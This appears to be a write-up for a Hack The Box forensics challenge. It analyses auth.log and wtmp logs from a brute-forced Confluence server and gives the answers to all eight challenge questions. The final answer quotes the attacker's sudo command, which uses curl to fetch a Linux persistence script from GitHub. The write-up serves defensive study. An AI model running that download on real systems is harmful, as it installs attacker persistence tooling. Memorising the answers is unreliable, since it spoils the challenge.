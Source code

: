 # HTB Brutus

![htb logo](./Images/htb_logo.png)

| Date       | Author          | Difficulty | Challenge Type |
| ---------- | --------------- | ---------- | -------------- |
| 2025-08-31 | Andrew McKenzie | Very Easy  | DFIR           |

---
## Description
This challenge, Brutus, immerses the analyst in a digital forensics investigation of a compromised Confluence server. The primary focus is on analyzing Unix/Linux authentication logs (`auth.log` and `wtmp`) to trace the attacker's activities, from the initial brute-force SSH attack to post-compromise actions like privilege escalation and establishing persistence.
## Scenario
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.
## Artifacts Provided
- Brutus.zip
	- auth.log
	- utmp.py
	- wtmp

| Filename | Algorithm | Hash                                                             |
| -------- | --------- | ---------------------------------------------------------------- |
| auth.log | SHA256    | 66bdba9ff1688766876deadc19ab5ddb2b0bce6a638bf255586a863260f58b9e |
| auth.log | SHA1      | a05b38ac3814e018d19a71c0a01b23a372e1457b                         |
| auth.log | MD5       | 97506c51ff4174f721c6f50d3cdb9a92                                 |
| utmp.py  | SHA256    | 561f0d4e696f939d6f1ae72e7b072597811612fa1a63302ace3d17d5ca3004ce |
| utmp.py  | SHA1      | cb50a2e7d074be4cef539b862ae9e6ef9640b791                         |
| utmp.py  | MD5       | a27c3cab74044634fee4cc82542cba41                                 |
| wtmp     | SHA256    | dddc32ea65ed9972b0ee9802f95b20d4b6b98c0d5b4930f6d2302f2740458576 |
| wtmp     | SHA1      | 36a1a0de8b1fdf1bde6d15854aefb5d86c3e91e8                         |
| wtmp     | MD5       | c075bb3111080619e0fd9b269f13c910                                 |

## Skills Learned
- Parsing and analyzing Linux `auth.log` for security events.
- Identifying brute-force attacks and the source IP address.
- Pinpointing successful and failed authentication attempts.
- Using Python scripts to parse binary log files like `wtmp`.
- Correlating event data across different log sources (`auth.log` and `wtmp`).
- Investigating post-compromise activities, including user creation and privilege escalation.
- Tracking command execution through `sudo` log entries.
- Mapping attacker TTPs (Tactics, Techniques, and Procedures) to the MITRE ATT&CK framework.
- Utilizing essential command-line tools (`grep`, `cat`, `less`) for log analysis.
## Initial Analysis
The investigation begins with the provided `Brutus.zip` archive. After extraction, we are presented with three key artifacts: `auth.log`, `wtmp`, and a Python parser `utmp.py`.
- **`auth.log`**: A plaintext log file containing records of user logins, authentication attempts, and authorization-related events. This is the primary source for initial review due to its human-readable format.
- **`wtmp`**: A binary file that maintains a historical record of all user logins and logouts. This file requires a specialized parser to be read.
- **`utmp.py`**: A Python script provided to parse the binary `wtmp` file and convert its contents into a readable format.
The initial strategy is to examine `auth.log` to understand the timeline of the attack. We can start by looking for common indicators of a brute-force attack, such as a high volume of failed login attempts from a single IP address in a short period.
## Questions:
1. **Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**
Piping the logs to less, we can go through the entries without being overwhelmed by the logs. As we start to move down from the initial lines, we can see “invalid user” messages coming in multiple times from a specific IP address: `65.2.161.68`

![image one](./Images/Pasted%20image%2020250831094941.png)

2. **The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**
Continuing through the logs, we see many usernames/passwords were attempted. But, eventually we find a successful login for `root`.

![image two](./Images/Pasted%20image%2020250831095144.png)

3. **Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**
We have been provided with a Python file for reading the WTMP artifacts. Using this and grepping for the IP address we found in question 1, we find the UTC time to be `2024-03-06 06:32:45`.

![image three](./Images/Pasted%20image%2020250831100736.png)

4. **SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**
Back to the auth logs, we can scroll down until closer to this previous question's time frame. From there we can see the login and the session `37` getting assigned.

![image four](./Images/Pasted%20image%2020250831101142.png)

5. **The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**
Using the auth logs, we can scroll down shortly after the initial successful login, and we find a new user being added: `cyberjunkie`.

![image five](./Images/Pasted%20image%2020250831134655.png)

6. **What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**
A quick Google search for this question provides a direct [link](https://attack.mitre.org/techniques/T1136/). This technique has three sub-techniques: local, domain, and cloud. Based on this challenge, we assume a local account: `T1136.001`.

![image six](./Images/Pasted%20image%2020250831134824.png)

7. **What time did the attacker's first SSH session end according to auth.log?**
Running the command `cat auth.log | grep "37"`, we can see at the end of the output that session 37 logged out at `2024-03-06 06:37:24`.

![image seven](./Images/Pasted%20image%2020250831135035.png)

8. **The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**
Running the command `cat auth.log | grep "cyberjunkie"`, we can review logs specific to this user's activity. We can see that the user performed a few commands, but the command in question is: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.

![image eight](./Images/Pasted%20image%2020250831135231.png)